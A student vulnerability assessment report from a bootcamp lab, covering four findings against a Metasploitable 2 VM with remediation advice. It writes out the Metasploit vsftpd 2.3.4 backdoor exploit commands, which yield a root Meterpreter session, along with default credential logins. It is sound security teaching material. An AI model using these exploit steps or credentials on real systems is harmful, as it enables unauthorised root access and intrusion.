








# Vulnerability Assessment & Penetration Test Report

**Prepared by:** Aazib Ali
**Course:** Digital Forensics & Cyber Security Bootcamp, Atomcamp
**Trainer:** Waseem Abbas Khan
**Date of Assessment:** 7 November 2026
**Classification:** Student Lab Exercise — Not for Distribution

---

**Target environment:**

| Role | OS | IP Address | Network |
|---|---|---|---|
| Attacker | Kali Linux | 192.168.88.133 | NAT |
| Target | Metasploitable 2 (Ubuntu-based Linux) | 192.168.88.134 | NAT |

**Engagement type:** Grey-box
**Simulation type:** Reconnaissance, exploitation and post-exploitation

---

## 1. Executive Summary

This assessment was conducted against a single Linux host (Metasploitable 2)
in an isolated NAT laboratory environment. The engagement covered network
discovery, port scanning, automated vulnerability scanning (GVM/OpenVAS),
manual CVE research, and controlled exploitation using the Metasploit
Framework.

**Findings summary:**

| Severity | Count |
|---|---|
| Critical | 1 |
| High | 2 |
| Medium | 1 |
| **Total** | **4** |

**Highest severity:** Critical (CVSS 9.8)

**Primary impact:** An unauthenticated attacker with network access to
port 21 can gain complete root-level control of the target host — full
read and write access to all data, including database services running
on the same machine — without any credentials and without any action
from a legitimate user. A second finding confirms that default credentials
are valid on two separate services, meaning the same access is achievable
even without the backdoor.

**Engagement type:** Grey-box — the target IP address was known in
advance; no source code or credentials were provided at the start.

---

## 2. Engagement Scope and Details

**Scope type:** Grey-box
**Target IP:** 192.168.88.134 (Metasploitable 2)
**Testing window:** 7 November 2026
**Network:** Isolated NAT — target not reachable from any external network

**Methodology (in order performed):**

1. Network discovery (nmap -sn, netdiscover)
2. Port scanning (nmap default, full-range, targeted)
3. Version and OS detection (nmap -sV, -O)
4. NSE script enumeration (ftp, http, smb scripts)
5. Manual CVE research (NVD, Debian tracker, CWE)
6. Automated vulnerability scanning (Greenbone/OpenVAS GVM)
7. Exploitation (Metasploit Framework)
8. Post-exploitation confirmation (Meterpreter + shell access)

**Exclusions:**
- No denial-of-service techniques were used
- No data was exfiltrated from the target
- No persistence mechanisms were installed
- All activity was limited to the lab target IP only

**Legal context:** All techniques were performed exclusively against a
lab-owned virtual machine with no external network connectivity. No
activity was directed at any system outside the authorised lab scope.
Exploitation against any system without written authorisation is a
criminal offence under Pakistan's Prevention of Electronic Crimes Act
2016 and in every comparable jurisdiction.

---

## 3. Findings and Proofs of Concept

---

### Finding 1: FTP Backdoor Command Execution in vsftpd 2.3.4

**Severity:** CRITICAL — CVSS 9.8
**Vector:** CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
**Affected asset:** 192.168.88.134:21/tcp — vsftpd 2.3.4
**Identifiers:** CVE-2011-2523 | CWE-78 (OS Command Injection) | cpe:/a:vsftpd:vsftpd:2.3.4

**Description:**
The FTP server on port 21 was running vsftpd 2.3.4. This version contains
a backdoor introduced through a supply-chain compromise: between 30 June
and 3 July 2011, the official download server served a tampered archive.
When a specific character sequence is supplied as the FTP username, the
backdoor triggers and opens a command shell on port 6200/tcp with no
authentication required.

**Proof of concept:**

Step 1 — Discovery (nmap version detection):

nmap -sV -p21 192.168.88.134
Result: 21/tcp open ftp vsftpd 2.3.4

Explanation: Version detection identified the exact vulnerable build.

Step 2 — Validation (NSE script):

nmap -p21 --script ftp-vsftpd-backdoor.nse 192.168.88.134
Result: VULNERABLE — uid=0(root) gid=0(root)

Explanation: The NSE script triggered the backdoor and confirmed
root-level code execution.

Step 3 — Exploitation (Metasploit):

msfconsole -q
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.88.134
set LHOST 192.168.88.133
exploit

Result:
[+] Backdoor has been spawned!
[*] Meterpreter session 1 opened (192.168.88.133:4444 -> 192.168.88.134:39725)

meterpreter > getuid
Server username: root

meterpreter > shell
whoami → root
id → uid=0(root) gid=0(root)

Explanation: Metasploit triggered the backdoor and established a
Meterpreter session. Both getuid and shell-level id confirm full
root-level access with no credentials used at any point.

**Impact:**
Any party able to reach port 21 can obtain unauthenticated remote code
execution as root. The same host also runs MySQL (3306) and PostgreSQL
(5432), so a compromise also exposes any data held in those services.

**Remediation:**
1. Upgrade vsftpd to a current, stable release.
2. Verify vendor package signatures before deployment.
3. If FTP is not required, disable the service entirely.
4. Restrict port 21 to named source addresses if FTP is business-critical.

**References:**
- https://nvd.nist.gov/vuln/detail/CVE-2011-2523
- https://security-tracker.debian.org/tracker/CVE-2011-2523
- https://www.exploit-db.com/exploits/49757

---

### Finding 2: Exposed phpinfo.php — Information Disclosure

**Severity:** MEDIUM — CVSS 5.3 (approx)
**Vector:** CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N
**Affected asset:** 192.168.88.134:80/tcp — Apache httpd, PHP 5.2.4-2ubuntu5.10
**Identifiers:** CWE-200 (Exposure of Sensitive Information)

**Description:**
The file /phpinfo.php is publicly accessible with no authentication.
It exposes the complete server configuration including PHP version,
OS version, internal file paths, and loaded modules — all without
any login required.

**Proof of concept:**

Step 1 — Detection (NSE script):

nmap -p80 --script http-enum.nse 192.168.88.134
Result: /phpinfo.php: PHP info page detected

Step 2 — Confirmation (curl):

curl -s http://192.168.88.134/phpinfo.php | head -40
Result: PHP Version 5.2.4-2ubuntu5.10, System: Linux metasploitable
2.6.24-16-server, Config path: /etc/php5/cgi/php.ini

Explanation: The file returned complete internal server configuration
with no login or credential required at any point.

**Impact:**
An attacker learns the exact software versions and server layout without
performing any exploitation, reducing the effort required to select a
targeted exploit.

**Remediation:**
Remove phpinfo.php from the production server. Debugging files must
never be deployed to live environments.

**References:**
- https://cwe.mitre.org/data/definitions/200.html

---

### Finding 3: Telnet — Cleartext Authentication Protocol

**Severity:** HIGH — CVSS 7.5 (approx)
**Vector:** CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N
**Affected asset:** 192.168.88.134:23/tcp — Linux telnetd
**Identifiers:** CWE-319 (Cleartext Transmission of Sensitive Information)

**Description:**
The target is running Telnet on port 23. Telnet transmits all data
including usernames and passwords in plain text with no encryption.
This is a design-level weakness, not a CVE: the protocol was built
before encryption was a standard requirement.

**Proof of concept:**

Step 1 — Detection:

nmap -sV -p23 192.168.88.134
Result: 23/tcp open telnet Linux telnetd

Step 2 — Connection confirmed:

telnet 192.168.88.134 23
Login: msfadmin / Password: msfadmin
Result: successful login — system banner displayed

The system itself warned: "Never expose this VM to an untrusted network!"

Explanation: The login succeeded with no encryption at any point.
Any attacker on the same network segment capturing this traffic
would see the username and password in plain text.

**Impact:**
An attacker on the same network segment can capture a Telnet session
and read credentials directly from the packets.

**Remediation:**
Disable Telnet and replace with SSH. If Telnet must remain for a
legacy reason, restrict it strictly to a trusted internal network
behind a VPN.

**References:**
- https://cwe.mitre.org/data/definitions/319.html

---

### Finding 4: Weak Default Credentials on Multiple Services

**Severity:** HIGH — CVSS 8.1
**Vector:** CVSS:3.1/AV:N/AC:H/PR:N/UI:N/S:U/C:H/I:H/A:H
**Affected assets:** FTP (21/tcp), SSH (22/tcp) — 192.168.88.134
**Identifiers:** CWE-1392 (Use of Default Credentials)

**Description:**
Two service accounts were found using default, publicly documented
credentials: user:user and msfadmin:msfadmin. These are published in
the product documentation and are the first pair any attacker would
try. No software vulnerability is required.

**Proof of concept:**

Step 1 — FTP login with default credentials:

ftp 192.168.88.134
Name: user Password: user
Result: 230 Login successful.

Step 2 — SSH login with default credentials:

ssh -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedAlgorithms=+ssh-rsa msfadmin@192.168.88.134
Password: msfadmin
Result: successful authentication

Note: a legacy host key algorithm flag was required, confirming the SSH
service itself is also outdated — an additional configuration weakness.

Explanation: Both services granted interactive access using credentials
that are a matter of public record, with no further verification.

**Impact:**
Authenticated access to the host is possible without exploiting any
software vulnerability. Once authenticated, further privilege escalation
via sudo is likely, and the same credentials may be valid across other
services on the same network.

**Remediation:**
1. Change all default credentials before any system is network-reachable.
2. Enforce minimum password length of 10+ characters with complexity.
3. Deploy a banned-password list covering rockyou.txt entries.
4. Disable accounts that are not required.
5. Enable MFA on all remotely reachable administrative interfaces.

**References:**
- https://cwe.mitre.org/data/definitions/1392.html

---

## 4. Remediation Summary (Prioritised)

| Priority | Finding | Severity | Action |
|---|---|---|---|
| 1 — Immediate | vsftpd 2.3.4 backdoor | Critical | Upgrade vsftpd; verify package signatures |
| 2 — Immediate | Weak default credentials | High | Change all default passwords before network exposure |
| 3 — High | Telnet cleartext | High | Disable Telnet; replace with SSH |
| 4 — Medium | Exposed phpinfo.php | Medium | Remove debugging files from production |

---

## 5. References

- https://nvd.nist.gov/vuln/detail/CVE-2011-2523
- https://security-tracker.debian.org/tracker/CVE-2011-2523
- https://www.exploit-db.com/exploits/49757
- https://cwe.mitre.org/data/definitions/78.html
- https://cwe.mitre.org/data/definitions/200.html
- https://cwe.mitre.org/data/definitions/319.html
- https://cwe.mitre.org/data/definitions/1392.html

---

## Appendix: Raw Evidence

Raw nmap scan outputs:
- scan-default.txt
- scan-versions.txt
- scan-backdoor-check.txt
- scan-http-enum.txt
- scan-telnet.txt

Screenshots are in the screenshots/ folder.
All exploitation steps are documented in exploitation-writeup.md.
GVM comparison is documented in gvm-comparison.md.
